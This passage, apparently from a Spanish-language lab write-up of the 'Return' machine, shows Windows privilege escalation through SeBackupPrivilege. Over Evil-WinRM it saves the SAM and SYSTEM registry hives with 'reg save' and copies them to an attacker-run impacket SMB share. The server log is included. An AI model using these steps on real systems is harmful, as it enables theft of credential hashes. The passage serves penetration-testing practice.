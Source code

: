Navegando un poco nos encontramos con este articulo de [hackingarticles](https://www.hackingarticles.in/windows-privilege-escalation-sebackupprivilege/) donde nos dice que con este privilegio podemos copiar archivos y que podemos copir el archivo sam y system para luego dumpearlo en nuestra máquina atacante 

![8.png](Return%20d6966e9927e14428b9b3695e18e7c9d1/8.png)

Realizamos los pasos que nos dice el articulo  y vemos que ya tenemos estos archivos en nuestro directorio 

```csharp
*Evil-WinRM* PS C:\Temp> reg save hklm\sam c:\Temp\sam
The operation completed successfully.

*Evil-WinRM* PS C:\Temp> reg save hklm\system c:\Temp\system
The operation completed successfully.

*Evil-WinRM* PS C:\Temp> dir

    Directory: C:\Temp

Mode                LastWriteTime         Length Name
----                -------------         ------ ----
-a----        5/19/2022   9:54 PM          49152 sam
-a----        5/19/2022   9:54 PM       16023552 system

*Evil-WinRM* PS C:\Temp>
```

Ahora vamos a pasar a descarlos, intenté con download directo, pero no me los descarga, así que vamos a realizarlo con smbsever de impacket 

```csharp
Directory: C:\Temp

Mode                LastWriteTime         Length Name
----                -------------         ------ ----
-a----        5/19/2022   9:54 PM          49152 sam
-a----        5/19/2022   9:54 PM       16023552 system

*Evil-WinRM* PS C:\Temp> clear
*Evil-WinRM* PS C:\Temp> copy sam \\10.10.14.4\Folder\sam
*Evil-WinRM* PS C:\Temp> copy system \\10.10.14.4\Folder\system
*Evil-WinRM* PS C:\Temp>

-----------------------------------------------------------------------------------------------------------------------------------------------

┌─[root@angussmoody]─[/mnt/angussMoody/Machines/Return]
└──╼ #impacket-smbserver Folder . -smb2support
Impacket v0.9.24 - Copyright 2021 SecureAuth Corporation

[*] Config file parsed
[*] Callback added for UUID 4B324FC8-1670-01D3-1278-5A47BF6EE188 V:3.0
[*] Callback added for UUID 6BFFD098-A112-3610-9833-46C3F87E345A V:1.0
[*] Config file parsed
[*] Config file parsed
[*] Config file parsed
[*] Incoming connection (10.10.11.108,49423)
[*] AUTHENTICATE_MESSAGE (\,PRINTER)
[*] User PRINTER\ authenticated successfully
[*] :::00::aaaaaaaaaaaaaaaa
[*] Connecting Share(1:IPC$)
[*] Connecting Share(2:Folder)
[*] Disconnecting Share(1:IPC$)
[*] Disconnecting Share(2:Folder)
```